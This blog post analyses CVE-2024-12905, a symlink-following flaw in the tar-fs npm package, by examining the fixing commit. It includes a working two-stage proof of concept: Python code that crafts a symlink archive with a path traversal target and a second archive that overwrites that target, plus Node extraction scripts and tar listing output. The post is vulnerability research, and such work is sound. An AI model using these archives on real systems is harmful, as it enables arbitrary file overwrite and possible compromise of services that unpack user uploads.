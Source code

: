 ```yaml
---
title: CVE-2024-12905 - tar-fs Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-tarFs-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-12905

## Introduction     
The `tar-fs` npm package is commonly used in JavaScript projects to pack and extract `.tar` archive files. However, a critical vulnerability ([CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)) affects several versions of this package — specifically:

- Versions from 0.0.0 before 1.16.4

- Versions from 2.0.0 before 2.1.2

- Versions from 3.0.0 before 3.0.7

This vulnerability allows attackers to craft malicious `.tar` archives that can write or overwrite files outside the intended extraction directory, potentially leading to arbitrary file write attacks. This kind of flaw poses a serious risk, especially in environments that automatically extract user-provided archives.

In this blog, we’ll dive into the `tar-fs` source code and analyze the relevant Git commits before and after the patch to understand how the vulnerability works. We'll also walk through the process of crafting a proof-of-concept (PoC) exploit to demonstrate its impact.

## Vulnerability Analysis
While researching recently published vulnerabilities for a new vulnerable machine concept, I came across **CVE-2024-12905**. The description immediately piqued my interest, and I was eager to replicate the vulnerability. However, I quickly realized that no public exploit code existed for it.

Determined to explore further, I decided to dive into the patch diffs myself to uncover exactly where the vulnerability was introduced—and more importantly, how it was fixed—so I could develop a working proof of concept (PoC).

Fortunately, the researchers who discovered the vulnerability referenced a specific commit hash in the `tar-fs` repository where the issue was addressed: [mafintosh/tar-fs@a1dd7e7](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed).

Upon reviewing this commit, I noticed a number of key additions to the code that appeared to patch the underlying issue. 

First, on line `123`, a new line was introduced to retrieve the absolute path of the current working directory. This serves as a baseline for validating file paths during extraction.

Then, on lines `221` to `223`, an important security check was added. This logic ensures that when unpacking archives, symbolic links are verified to confirm they **do not** point to locations outside the current working directory.

As shown in *Figure 1*, new lines were added to perform these validation checks. This includes a call to the `inCwd()` function, which is responsible for ensuring that resolved paths stay within the current working directory.

The actual implementation of `inCwd()` can be seen in *Figure 2*.

![Additions to the code](github_commit_and_additions.png)  
*Figure 1: Key Code Additions*

![inCwd Code Addition](inCWD_code_addition.png)  
*Figure 2: Implementation of `inCwd()`*


From these observations, we can begin to pinpoint the core of the vulnerability. In the affected versions of `tar-fs`, it is possible to unpack `.tar` archives containing symbolic links that point **outside** the current working directory. This oversight could allow attackers to write or overwrite arbitrary files on the system by leveraging specially crafted archive contents.


## Exploit Development
After identifying the vulnerability i moved on to crafting an exploit to prove ths concept. From the vulnerabilty i came to understand that we could submit archives with symbolic links and the affected version of `tar-fs` would happily unpack it. The exploitation doesn't end here as there are two stages involved in successfully obtaining a file write/overwrite.

### Stage 1: Creating a tar archive with a symbolic link embedded
In this stage, we use Python to craft a `.tar` archive that contains a symbolic link. This symbolic link is configured to point to a specific target file on the system that we intend to overwrite during extraction. 

```python
import tarfile
import os

archive_name = 'stage_1.tar'
link_name = 'normal_file' 
symlink_target = '../../../../../../../../../home/mcsam/poc' # Replace with traversed path to the file you want to overwrite

# Create symbolic link
os.symlink(symlink_target, link_name)

# Archive the symbolic link
tar = tarfile.open(archive_name, 'w')
tar.add(link_name, recursive=False)
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_1.tar 
lrwxrwxrwx mcsam/mcsam       0 2025-04-18 15:06 normal_file -> ../../../../../../../../../home/mcsam/poc
```

When `stage_1.tar` is unpacked on the target system, the symbolic link `normal_file` will be dropped in the extraction directory. This sets up the environment for the next stage, where this symlink could potentially be used to overwrite the target file it points to.

### Stage 2: Creating stage_2 tar archive 
In this stage, we create another TAR archive named `stage_2.tar`. This archive contains a regular file with the same name as the symbolic link we created in Stage 1 (e.g., `normal_file`).

The contents of this new file represent the data we intend to write into the target file on the victim system — the one the symbolic link points to.

This can also be achieved using Python.
```python
import tarfile

path_to_file_to_archive = 'poc' 
archive_name = 'stage_2.tar'

tar = tarfile.open(archive_name, 'w')
tar.add(path_to_file_to_archive, 'normal_file') # normal_file: same name as the symbolic link
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_2.tar 
-rw-rw-r-- mcsam/mcsam      19 2025-04-18 15:16 normal_file
```

#### What Happens When stage_2.tar is Unpacked
When `stage_2.tar` is unpacked by the vulnerable `tar-fs` application, it attempts to write the file `normal_file` to the file system.

However, recall that a symbolic link named `normal_file` already exists on the target (created during Stage 1). As a result, when `tar-fs` tries to write to `normal_file` in its current working directory, it will **follow the symlink** and end up overwriting the actual file it points to: `../../../../../../../../../home/mcsam/poc.`

This allows us to effectively overwrite an arbitrary file on the target system, provided the process has the necessary write permissions to that file.

## Verifying/Testing The Exploit
First, we set up our environment using `npm` and install a vulnerable version of `tar-fs`:

```
npm install tar-fs@3.0.0
```

#### Extracting Stage 1
Next, we create a simple test script named `test.js` that uses tar-fs to extract a tar archive:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_1.tar
fs.createReadStream('stage_1.tar').pipe(tar.extract('./output'))
```

Run the script with:
```
node test.js
```

#### Extracting stage 2
Now, we update the script to extract `stage_2.tar` instead:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_2.tar
fs.createReadStream('stage_2.tar').pipe(tar.extract('./output'))
```
Run the script again and voilà — the path traversal takes effect.   
`/home/mcsam/poc` gets overwritten.

#### Verifying the exploit
![Final PoC](final_poc.png)

## References
- [https://github.com/advisories/GHSA-pq67-2wwv-3xjx](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)
- [https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed)